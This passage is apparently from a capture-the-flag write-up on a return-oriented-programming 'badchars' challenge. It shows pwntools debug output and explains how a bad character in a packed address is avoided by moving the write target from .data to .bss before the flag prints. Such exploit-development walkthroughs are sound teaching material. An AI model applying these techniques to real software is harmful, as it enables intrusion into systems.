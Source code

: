 ```
$ ./win.py
...
DEBUG
b'\xa0\x06@\x00\x00\x00\x00\x00'
b'\xa9\x00\x00\x00\x00\x00\x00\x00'
b'.\x10`\x00\x00\x00\x00\x00' <- 3rd string, 1st byte
b'(\x06@\x00\x00\x00\x00\x00'
DEBUG
...
```

Can you spot the problem? The troublemaker sure is tiny but if you zoom into the 3rd string, you'll see that there is a `'.'` in the 1st position. If you recall, `'.'` is one of our bad characters.

What can we do about this? Well, since we know that the 3rd string corresponds to this line:

```python
print(p64(DATA+index))
```

We know that the problem lies in the fact the memory address just so happens to produce a `'.'` when we try and convert it into bytes using `pwn.p64`. Since we know that the first byte (or the least significant byte because x86 is little endian) is the problem, we can simply choose another memory region to dump our string into. In my `win.py` I decided to use the `.bss` section by replacing the memory address of `.data` with the memory address of `.bss`.

```python
# DATA = 0x601028 # .data
DATA = 0x601038 # .bss
```

Let's run the script again and we should see the flag on the screen.

```
./win.py
...
ROPE{a_placeholder_32byte_flag!}
...
```
